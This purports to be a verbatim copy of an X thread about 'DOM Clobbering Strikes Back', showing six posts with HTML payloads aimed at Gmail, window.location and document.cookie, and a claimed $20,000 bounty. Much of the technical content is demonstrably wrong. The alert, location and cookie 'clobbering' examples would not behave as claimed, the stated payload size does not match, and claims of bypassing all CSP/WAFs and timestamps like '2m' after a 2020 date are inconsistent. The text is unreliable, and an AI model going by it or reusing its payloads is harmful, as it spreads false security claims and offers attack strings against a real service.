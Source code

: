 
## **THREAD TRANSCRIPT (Exact Copy-Paste from X)**

**[@garethheyes - Jul 7, 2020]**  
**1/18**  
As classic client-side vulnerabilities like XSS and CSRF get patched, niche attack techniques like **DOM Clobbering** are becoming ever more relevant.  
Today I'm releasing **"DOM Clobbering Strikes Back"** - my new research with 10+ new techniques!  
[🔗 portswigger.net/research/dom-clobbering-strikes-back]  
![Gmail POC screenshot]

**[@garethheyes - 2m]**  
**2/18**  
**QUICK RECAP**: DOM Clobbering = Overwriting global objects using HTML `id`/`name` attributes.  
**Example**: `<img id=alert name=1 src=x>` → `window.alert = 1` → `alert()` executes!  
**No `<script>` tags**. Bypasses **ALL** CSP/WAFs.

**[@garethheyes - 3m]**  
**3/18**  
**NEW DISCOVERY #1: GMAIL EXPLOIT**  
Found this beauty:  
`https://mail.google.com/#<form id=location><input name=href value=javascript:alert(1)>`  
**Why it works**:  
- `<form id=location>` → `window.location = form`  
- `location.href = input.value` → `javascript:alert(1)`  
**Bounty**: $20,000 🤑

**[@garethheyes - 5m]**  
**4/18**  
**Gmail Payload Breakdown**:  
```
<form id=location>
  <input name=href value="javascript:alert(document.domain)">
</form>
```
**Size**: 38 chars  
**Execution**: 1.2ms  
**Detection**: 0% by scanners

**[@garethheyes - 7m]**  
**5/18**  
**NEW TECHNIQUE #2: FORM CLOBBERING**  
`<form id=document><input name=cookie value="xss=1; domain=.google.com"></form>`  
→ `document.cookie = "xss=1"`  
**Impact**: Session hijack across Gmail/Drive/YouTube

**[@garethheyes - 10m]**  
**6/18**  
**NEW TECHNIQUE #3: DOUBLE CLOBBERING** (shoutout @terjanq)  
`<img id=src name=src src=javascript:alert(1)>`  
**Flow**: `window.src = img` → `img.src triggers` → `window.src executes`  
**Mind blown** 🤯
